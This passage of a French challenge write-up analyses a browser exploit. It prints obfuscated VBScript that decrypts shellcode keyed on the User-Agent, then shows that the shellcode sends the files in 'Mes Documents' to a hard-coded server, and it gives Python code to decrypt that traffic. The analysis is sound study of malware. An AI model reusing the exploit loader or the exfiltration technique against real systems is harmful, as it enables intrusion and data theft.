    IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = join(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
    IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,1,8)

    IIIIIIIII = Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,53,5)
    IIIIIII = Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,58)

    set IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,734678-734649,734678-734669))
    set IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,894112-894083,894112-894103))

    IIIIIIIIIIIIIIIIIIIIIIIIIII = 0
    IIIIIIIIIIIII = 0

    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIII)
        set IIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = document.createElement(Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,459759-459758,459759-459752))
        d.appendChild(IIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII))
    Next
    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIII)
        If IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = (UBound(IIIIIIIIIII)-1) Then
            JJ v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,604557-604528,604557-604548),IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII
        End If
        set IIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = J(IIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,496415-496407,496415-496409))
    Next
    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIII)
        set III(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = J(IIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,429731-429717,429731-429716))
    Next

    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(III)
        IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = III(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII).rotation
        If IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = (UBound(III)-10) Then
            JJ v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,260288-260259,260288-260279),IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII
        End If
    Next
    IIIII = J(J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,511606-511577,511606-511597)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,339787-339749,339787-339782)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,940464-940417,940464-940458))
    JJ J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,735995-735966,735995-735986)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,467668-467630,467668-467663)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,773-726,773-767),-1

    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
        IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = JJJ(J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,309728-309699,309728-309719)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,303127-303089,303127-303122)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,534904-534861,534904-534900),(IIIII + IIIIIIIIIIIIIIIIIIIIIIIIIIIIII))
    Next
    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(III)
        III(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII).marginLeft = navigator.userAgent
    Next

    IIIIIIIIIIIIIIIIIIIIIIIIIII = 0
    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)-1
        IIIIIIIIIIIIIIIIIIIIIIIIIIII = JJJ(J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,602390-602361,602390-602381)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,813368-813330,813368-813363)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,21539-21496,21539-21535),(IIIII + IIIIIIIIIIIIIIIIIIIIIIIIIIIIII))
        If (IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = 0) And (IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII+1) = 0) And (IIIIIIIIIIIIIIIIIIIIIIIIIIII <> 0) Then
            IIIIIIIIIIIIIIIIIIIIIIIIIII = IIIII + IIIIIIIIIIIIIIIIIIIIIIIIIIIIII
            Exit For
        End If
    Next

    If IIIIIIIIIIIIIIIIIIIIIIIIIII = 0 Then
        JJ J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,573547-573518,573547-573538)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,880752-880714,880752-880747)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,388140-388093,388140-388134),IIIII
        Exit Function
    End If

    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(III)
        III(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII).marginTop = navigator.userAgent
        If JJJ(J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,819160-819131,819160-819151)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,246605-246567,246605-246600)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,765510-765467,765510-765506),(IIIIIIIIIIIIIIIIIIIIIIIIIII + 1)) <> 0 Then
            set IIIIIIIIIIIII = III(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
            Exit For
        End If
    Next
    If Not IsObject(IIIIIIIIIIIII) Then
        Exit Function
    End If
    IIIIIIIIIIIII.marginLeft = IIIIIIIII
    IIIIIIII = JJJ(J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,516824-516795,516824-516815)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,250316-250278,250316-250311)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,8886-8843,8886-8882),IIIIIIIIIIIIIIIIIIIIIIIIIII)
    IIIIIIIIIIIII.marginTop = replace(space(30),ChrW(32),ChrW((IIIIIIII And 65535)) & ChrW((IIIIIIII And &hffff0000)/&h10000))
    IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = JJJ(J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,318938-318909,318938-318929)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,360605-360567,360605-360600)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,211688-211645,211688-211684),IIIIIIIIIIIIIIIIIIIIIIIIIII+1)

    JJJJ J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,495098-495069,495098-495089)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,876621-876583,876621-876616)), Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,881101-881058,881101-881097),(IIIIIIIIIIIIIIIIIIIIIIIIIII + 1),0
    JJ J(J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,934155-934126,934155-934146)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,519413-519375,519413-519408)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,769059-769012,769059-769053),IIIII

    IIII = J(J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,866196-866167,866196-866187)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,334056-334018,334056-334051)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,884298-884251,884298-884292))
    JJ J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,709994-709965,709994-709985)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,217569-217531,217569-217564)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,469809-469762,469809-469803),-1

    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = IIII To (IIII+60)
        II = JJJ(J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,266236-266207,266236-266227)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,262373-262335,262373-262368)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,671152-671109,671152-671148),IIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
        IIIIIIIIIIIIII = JJJ(J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,116380-116351,116380-116371)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,39508-39470,39508-39503)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,603642-603599,603642-603638),IIIIIIIIIIIIIIIIIIIIIIIIIIIIII+1)
        If (II <> 0) And ((IIIIIIIIIIIIII = 3)) Then
            For IIIIIIIIIIIIIIIIIIIIIIIIIIIII = UBound(IIIIIIIIIII) To 0 Step -1 
                set IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = J(IIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIII),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,277018-277010,277018-277012))
                If (JJJ(J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,101276-101247,101276-101267)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,55839-55801,55839-55834)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,696848-696805,696848-696844),IIIIIIIIIIIIIIIIIIIIIIIIIIIIII+1) = (IIIIIIIIIIIIII+2)) Then
                    JJJJ J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,24410-24381,24410-24401)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,411822-411784,411822-411817)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,440350-440307,440350-440346),IIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII
                    On Error Resume Next
                    IIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIII).src = IIIIIII
                    On Error Goto 0
                    JJJJ J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,952854-952825,952854-952845)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,971874-971836,971874-971869)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,183087-183044,183087-183083),IIIIIIIIIIIIIIIIIIIIIIIIIIIIII,II
                    JJ J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,453208-453179,453208-453199)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,585848-585810,585848-585843)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,361690-361643,361690-361684),IIII
                    Exit Function
                End If
                IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0
            Next
        End If
    Next
    JJ J(J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,593743-593714,593743-593734)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,803372-803334,803372-803367)),Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,478029-477982,478029-478023),IIII

    Exit Function
end Function
```

L'obfuscation du script est un peu pénible, mais avec un peu de patience, il est possible d'identifier un buffer utilisé pour stocker un shellcode chiffré,
ainsi qu'une classe implémentant l'algorithme de chiffrement RC4 légèrement modifié.
À la fin de l'étape de Key Schedule, la clé passée en paramètre est chiffrée, ainsi la table des permutations est modifiée.
En re-implémentant cette petite modification, il est possible de déchiffrer et extraire le shellcode, en utilisant comme clé RC4 le User-Agent.

> Note: La partie relative à l'exploitation de la vulnérabilité n'a pas été analysée.

### Analyse du shellcode

De manière assez classique (pour un code malveillant), le shellcode va procéder à la résolution des imports par hash, 
permettant d'utiliser par la suite les fonctions de l'API Win32.

La fonction de hash utilisée par le shellcode est la suivante:

```python
def sstic2020_hash(inString, fName):
    h=0x53544943 # STIC
    for c in inString:
        h = (ord(c) + ((h*0x21) & 0xffffffff)) & 0xffffffff
    return h
```

Une fois la fonction de hash identifée et implémentée en python, l'utilisation de l'outil `shellcode_hashes` (https://github.com/fireeye/flare-ida/tree/master/shellcode_hashes), permet de créer une base SQLite contenant le hash de l'ensemble des fonctions exportées par un ensemble de DLL.
L'ensemble des DLLs est récupéré sur un disque contenant l'installation de Windows 98 via une commande `find / -type f -iname '*.DLL'`.

La recherche de la constante `0x53544943` ('STIC') utilisée par la fonction de hash, permet de retrouver les différents
endroits où le shellcode importe une fonction par hash.

Une fois les hash extraits, l'outil `shellcode_hashes` permet de retrouver les fonctions correspondantes:

```
sstic2020_hash:0xef5dd668 SHFOLDER.DLL!SHGetFolderPathA
sstic2020_hash:0x5211ff8d KERNEL32.DLL!FindFirstFileA
sstic2020_hash:0x74cae544 KERNEL32.DLL!FindNextFileA
sstic2020_hash:0x4c531778 KERNEL32.DLL!CreateFileA
sstic2020_hash:0x556d2b5f KERNEL32.DLL!ReadFile
sstic2020_hash:0x992d1b85 KERNEL32.DLL!CloseHandle
sstic2020_hash:0x556d2b5f KERNEL32.DLL!ReadFile
sstic2020_hash:0xb07290d5 KERNEL32.DLL!VirtualAlloc
0x3789542D --> unknown
sstic2020_hash:0x1776edec WSOCK32.DLL!socket
0x3789542D --> unknow
sstic2020_hash:0x3779904d WSOCK32.DLL!connect
sstic2020_hash:0x0b4dfe8d WSOCK32.DLL!send
sstic2020_hash:0xaa090282 WSOCK32.DLL!closesocket
```

On identifie ainsi que le shellcode va ouvrir une connexion TCP à destination du serveur,
puis envoyer chaque fichier contenu dans le dossier "Mes Documents" (`FOLDERID_Documents`).
Chaque fichier est précédé de la structure `WIN32_FIND_DATAA` associée:

```c
typedef struct _WIN32_FIND_DATAA {
  DWORD    dwFileAttributes;
  FILETIME ftCreationTime;
  FILETIME ftLastAccessTime;
  FILETIME ftLastWriteTime;
  DWORD    nFileSizeHigh;
  DWORD    nFileSizeLow;
  DWORD    dwReserved0;
  DWORD    dwReserved1;
  CHAR     cFileName[MAX_PATH];
  CHAR     cAlternateFileName[14];
  DWORD    dwFileType;
  DWORD    dwCreatorType;
  WORD     wFinderFlags;
} WIN32_FIND_DATAA, *PWIN32_FIND_DATAA, *LPWIN32_FIND_DATAA;
```

On retrouve l'adresse IP du serveur `192.168.20.1` et le port de destination `443,` codés en dur dans le shellcode.

Ces informations permettent de tester l'exploit, en configurant la VM Windows 98 dans le sous-réseau `192.168.20.0/24`,
avec un serveur HTTP utilisant le module python3 `http.server` pour délivrer la page HTML contenant le VBS.

Et ... ça fonctionne!

Bien évidemment, les fichiers envoyés au serveur sont chiffrés, la prochaine étape est donc d'identifier l'algorithme de chiffrement.

>Note: L'utilisation de ollydbg dans la VM Windows 98 permet de débugger le shellcode.

### Algorithmes de chiffrement

#### AES

L'algorithme de chiffrement AES est utilisé pour générer une clé de chiffrement, qui sera utilisée par un second algorithme de chiffrement.
On retrouve ainsi dans le shellcode les 4 tables des 256 entiers utilisés, par AES lors de l'opération `MixColumns`.
Le chiffrement AES est implémenté dans un seul (gros) basic bloc, où les boucles ont été aplati (inling).
On notera que la connexion au serveur (`socket` + `connect`) se fait après la génération de la clé de chiffrement.


#### Coconut 98

Le second algorithme de chiffrement utilisé est Coconut 98 (Cipher Organized with Cute Operations and N-Universal Transformation), conçu par Serge Vaudenay (cryptographe français). 

Cet algorithme possède les caractéristiques suivantes:

 * Chiffrement par bloc de 64 bits
 * Clé de chiffrement de 256 bits
 * Utilisation d'un réseau de Feistel (2 x 4 tours)
 * Utilisation d'un module de décorrélation entres les 2 x 4 tours
 * Utilisation d'une S-Box de 8x24 bits (i.e 256 entiers de 24 bits)

Cet algorithme a été identifié par la recherche en source ouverte de la constante `0x8aed2a`, première entrée de la S-Box, utilisée par le réseau de Feistel. Assez peu d'informations concernant cet algorithme sont disponibles, mais un papier (disponible partiellement sur google book) présenté à la conférence *STACS 98: 15th Annual Symposium on Theoretical Aspects of Computer Science*, explique le fonctionnement de l'algorithme, en particulier l'utilisation des champs de Galois par le module de décorrélation. Il explique également comment calculer la clé inverse K<sup>-1</sup>, permettant le déchiffrement d'un bloc. Mon approche a donc été la suivante:

1. Implémentation de l'algorithme de chiffrement en python
2. Écriture d'un vecteur de test (via exécution du shellcode) pour vérifier que l'implémentation en python est correct
3. Calcul de la clé inverse
4. Test de chiffrement / déchiffrement avec le vecteur de test 

Le module de décorrélation est implémenté dans le script python via 2 fonctions équivalentes:

 * `gf64_product_32bits`: implémentation basée sur le reverse du shellcode (similaire à l'utilisation de 2x2 registres de 32-bits)
 * `gf64_product`: implémentation sans les contraintes liées au registre sur 32-bits


Le script suivant contient l'implémentation en python du code permettant de déchiffrer la communication:

```python
#!/usr/bin/env python3

import struct
import binascii
import sys
import hexdump

SBOX = [
    9104682, 6995825, 5800092, 16053191, 6481686, 997556, 14309031, 8706308,
    5345487, 15675982, 7813266, 7142373, 16039821, 9276465, 14115802, 444426,
    12259717, 15421308, 8083287, 16094596, 9490388, 8223769, 12272149, 9278804,
    16233579, 13555036, 5077501, 6235350, 6372401, 12813210, 3006346, 10102635,
    13615009, 13137861, 6456538, 12033236, 12759849, 4006121, 15067888, 2803210,
    13407213, 8864802, 10825419, 2330606, 15051626, 14517087, 13738101, 4000399,
    7922999, 13810011, 12033421, 13298788, 2891423, 2340905, 11911800, 783239,
    3661707, 11731152, 1258656, 13680006, 4574202, 7579158, 1048121, 3950795,
    12306950, 987128, 15494449, 12498380, 15652850, 15776520, 8394518, 3917325,
    16013838, 13310925, 2661126, 13352938, 2206984, 14779519, 4158328, 13987053,
    9724941, 7270611, 13859814, 7342305, 8835519, 2579355, 2366955, 6583450,
    4710367, 12150322, 12839686, 1795186, 12318796, 2495566, 4834000, 4993614,
    15797733, 1299445, 1133451, 6109005, 9685896, 7981013, 3145074, 12192430,
    7501786, 8102324, 11474056, 14215222, 11474054, 6188087, 11233398, 16673035,
    5706017, 3681011, 4304873, 5207996, 15756419, 12123990, 7729303, 9467053,
    10123387, 12958141, 4918361, 3658733, 14992295, 9672225, 6216369, 16088331,
    5930420, 6413711, 3962196, 851986, 2086254, 9828551, 3271108, 14098971,
    12505286, 2864552, 7865526, 7971018, 10755456, 2770436, 12784055, 1958885,
    13022208, 14689446, 6720719, 3026408, 6846180, 16106752, 61609, 3881639,
    15086635, 3156490, 4667195, 2488126, 3876565, 6946338, 9547062, 14065991,
    13698571, 8854056, 129400, 3630088, 3143058, 14226445, 11659577, 10351792,
    14765224, 15240937, 1116971, 13957784, 15651152, 13266392, 9642565, 15693202,
    13042677, 3329594, 3198257, 12611819, 3585049, 6288191, 11650668, 8220921,
    3741712, 8184325, 2092339, 16175582, 9736647, 14591653, 10765025, 5556411,
    7179523, 6455355, 12732628, 1329036, 2816775, 16770958, 9026046, 13270576,
    6340751, 877048, 14903297, 14640849, 14219577, 3035850, 15664723, 1676409,
    14625766, 4962987, 36008, 10514394, 13540583, 297348, 5900331, 10710369,
    2005490, 16508708, 2387224, 11882035, 6073357, 13740957, 16611720, 10793156,
    5606049, 1655159, 2143969, 5295659, 9600328, 14099822, 4480563, 3979095,
    2833360, 1028724, 6308632, 10267665, 7138759, 15167918, 219391, 7678522,
    7040121, 10848922, 5544784, 12945158, 9467228, 3532003, 7033488, 3721843,
    4182442, 11066036, 78808, 205024, 7932264, 13067590, 12162038, 13172539
]

def ROR(x, n, bits = 32):
    mask = (2**n) - 1
    mask_bits = x & mask
    return (x >> n) | (mask_bits << (bits - n))
 
def ROL(x, n, bits = 32):
    return ROR(x, bits - n, bits)

def SHLD(x, y, n, bits = 32):
    mask = (2**bits)-1
    return ((x << n) & mask) | (y >> (bits - n))

CST = 0xB7E15162

class Coconut98(object):

    MODE_ENCRYPT = 0
    MODE_DECRYPT = 1

    def __init__(self, key):

        self.key = key

    def gf64_product(self, x, y):
        p = 0 # the product of the multiplication 
        while x and y:
         # if y is odd, then add the corresponding a to p (final product = sum of all x's corresponding to odd y's)
            if (y & 1):
                # since we're in GF(2^m), addition is an XOR
                p = (p ^ x)
         # GF modulo: if x >= 0x8000000000000000L, then it will overflow when shifted left, so reduce 
            if (x & (1<<63)):
                # XOR with the primitive polynomial x^64 + x^11 + x^2 + x + 1 (must be irreducible)
                x = (x << 1) ^ ((1<<64)|0x807)
            else:
                x <<= 1
            y >>= 1
        return p

    def gf64_product_32bits(self, x, y):
        OUT_ROUND_LEFT = 0
        OUT_ROUND_RIGHT = 0

        OUT_S1_LEFT = x >> 32
        OUT_S1_RIGHT = x & 0xFFFFFFFF
        AES_DW7 = y >> 32
        AES_DW8 = y & 0xFFFFFFFF

        # 64 round as the multiplication is performed as a bit by bit addition
        round = 0
        while round < 64:
            test = 0
            if round < 32:
                test = (AES_DW8 & (1 << round))
            else:
                test = AES_DW7 & (1 << (round-32))
            if test != 0:
                ROUND_LEFT = OUT_S1_LEFT   # always init with output of 1st step
                ROUND_RIGHT = OUT_S1_RIGHT # always init with output of 1st step
                if round > 0:
                    if round >= 4:
                        # handle 4 bits by round * 16 round = 32 bits for each half
                        for j in range(0, round >> 2): # between 0 and 15 round
                            tmp1 = SHLD(ROUND_LEFT, ROUND_RIGHT, 1)
                            tmp2 = (ROUND_RIGHT << 1) & 0xffffffff
                            if ROUND_LEFT & 0x80000000 == 0x80000000:
                                tmp2 ^= 0x807

                            tmp3 = SHLD(tmp1, tmp2, 1)
                            tmp4 = (tmp2 << 1) & 0xffffffff
                            if tmp1 & 0x80000000 == 0x80000000:
                                tmp4 ^= 0x807

                            tmp5 = SHLD(tmp3, tmp4, 1)
                            tmp6 = (tmp4 << 1) & 0xffffffff
                            if tmp3 & 0x80000000 == 0x80000000:
                                tmp6 ^= 0x807

                            tmp7 = SHLD(tmp5, tmp6, 1)
                            tmp8 = (tmp6 << 1) & 0xffffffff
                            if tmp5 & 0x80000000 == 0x80000000:
                                tmp8 ^= 0x807

                            ROUND_LEFT = tmp7
                            ROUND_RIGHT = tmp8

                    for j in range(0, round & 3): # between 0 and 3 round
                        tmp1 = SHLD(ROUND_LEFT, ROUND_RIGHT, 1)
                        tmp2 = (ROUND_RIGHT + ROUND_RIGHT) & 0xffffffff
                        if ROUND_LEFT & 0x80000000 == 0x80000000:
                            tmp2 ^= 0x807
                        ROUND_LEFT = tmp1
                        ROUND_RIGHT = tmp2

                # bit by bit addition
                OUT_ROUND_LEFT ^= ROUND_LEFT
                OUT_ROUND_RIGHT ^= ROUND_RIGHT
            round += 1
        return ((OUT_ROUND_LEFT << 32) | (OUT_ROUND_RIGHT))

    def encrypt(self, payload):
        key_tuple = struct.unpack("<IIIIIIII", self.key)
        return self.compute(payload, key_tuple, Coconut98.MODE_ENCRYPT)
    
    def decrypt(self, payload):
        AES_DW1, AES_DW2, AES_DW3, AES_DW4, AES_DW5, AES_DW6, AES_DW7, AES_DW8 = struct.unpack("<IIIIIIII", self.key)
        rev_K1 = AES_DW2 ^ AES_DW4
        rev_K2 = AES_DW1 ^ AES_DW4
        rev_K3 = AES_DW3
        rev_K4 = AES_DW4
        K5K6p = self.gf64_product((AES_DW5 << 32) | (AES_DW6), (AES_DW7 << 32) | (AES_DW8))
        # Hardcoded value for K7K8 invert as libgf2 doesn't support python3
        K7K8p = 0x247f9823bebea5a8 # GF2QuotientRing(0x807 | (1<<64)).invraw((AES_DW7 << 32) | AES_DW8)
        assert(self.gf64_product(K7K8p, (AES_DW7 << 32) | AES_DW8) == 1)
        rev_K5 = K5K6p >> 32
        rev_K6 = K5K6p & 0xFFFFFFFF
        rev_K7 = K7K8p >> 32
        rev_K8 = K7K8p & 0xFFFFFFFF
        rev_key = (rev_K1, rev_K2, rev_K3, rev_K4, rev_K5, rev_K6, rev_K7, rev_K8)
        return self.compute(payload, rev_key, Coconut98.MODE_DECRYPT)


    def compute(self, payload, key_tuple, mode):

        AES_DW1, AES_DW2, AES_DW3, AES_DW4, AES_DW5, AES_DW6, AES_DW7, AES_DW8 = key_tuple

        out_payload = b""

        K1 = AES_DW1
        K2 = AES_DW1 ^ AES_DW3
        K3 = AES_DW1 ^ AES_DW3 ^ AES_DW4
        K4 = AES_DW1 ^ AES_DW4
        K5 = AES_DW2
        K6 = AES_DW2 ^ AES_DW3
        K7 = AES_DW2 ^ AES_DW3 ^ AES_DW4
        K8 = AES_DW2 ^ AES_DW4

        OUT_LEFT = 0  # edi
        OUT_RIGHT = 0 # esi
        i = 0
        while i < len(payload):

            P1, P2 = struct.unpack("<II", payload[i:i+8])
 
            if mode == Coconut98.MODE_ENCRYPT:
                P1 = P1 ^ OUT_LEFT
                P2 = P2 ^ OUT_RIGHT
  
            # Step 1 (4 Round feistel cipher)

            # F1
            step1 = ROL((((P1 ^ K1) + (SBOX[(P1 ^ K1) & 0xFF] << 8)) & 0xFFFFFFFF), 11)
            step2 = P2 ^ ((step1 + (SBOX[(step1 + CST) & 0xFF] << 8) + CST) & 0xFFFFFFFF)
            # F2
            step3 = ROL(((step2 ^ K2) + (SBOX[(step2 ^ K2) & 0xFF] << 8)) & 0xFFFFFFFF, 11)
            step4 = P1 ^ ((step3 + (SBOX[(step3 + CST) & 0xFF] <<8) + CST) & 0xFFFFFFFF)
            # F3
            step5 = ROL(((step4 ^ K3) + (SBOX[(step4 ^ K3) & 0xFF] << 8)) & 0xFFFFFFFF, 11)
            step6 = step2 ^ ((step5 + (SBOX[(step5 + CST) & 0xFF] << 8) + CST) & 0xFFFFFFFF)
            # F4
            step7 = ROL(((K4 ^ step6) + (SBOX[(K4 ^ step6) & 0xFF] << 8)) & 0xFFFFFFFF, 11)
            step8 = step4 ^ ((step7 + (SBOX[(step7+CST) & 0xFF] << 8) + CST) & 0xFFFFFFFF) 

            OUT_S1_LEFT = step8 ^ AES_DW5
            OUT_S1_RIGHT = step6 ^ AES_DW6


            # Step 2 (decoleration module)

            x = (OUT_S1_LEFT << 32) | OUT_S1_RIGHT
            y = (AES_DW7 << 32) | AES_DW8
            z = self.gf64_product(x, y) 
            P1 = z & 0xffffffff
            P2 = z >> 32

            # Step 3 (4 Round feistel cipher)

            # F1
            step1 = ROL(((P1 ^ K5) + (SBOX[(P1 ^ K5) & 0xFF] << 8)) & 0xFFFFFFFF, 11)
            step2 = P2 ^ ((step1 + (SBOX[(step1 + CST) & 0xFF] << 8) + CST) & 0xFFFFFFFF)
            # F2
            step3 = ROL(((step2 ^ K6) + (SBOX[(step2 ^ K6) & 0xFF] << 8)) & 0xFFFFFFFF, 11)
            step4 = P1 ^ ((step3 + (SBOX[(step3 + CST) & 0xFF] <<8) + CST) & 0xFFFFFFFF)
            # F3
            step5 = ROL(((step4 ^ K7) + (SBOX[(step4 ^ K7) & 0xFF] << 8)) & 0xFFFFFFFF, 11)
            step6 = step2 ^ ((step5 + (SBOX[(step5 + CST) & 0xFF] << 8) + CST) & 0xFFFFFFFF)
            # F4
            step7 = ROL(((K8 ^ step6) + (SBOX[(K8 ^ step6) & 0xFF] << 8)) & 0xFFFFFFFF, 11)
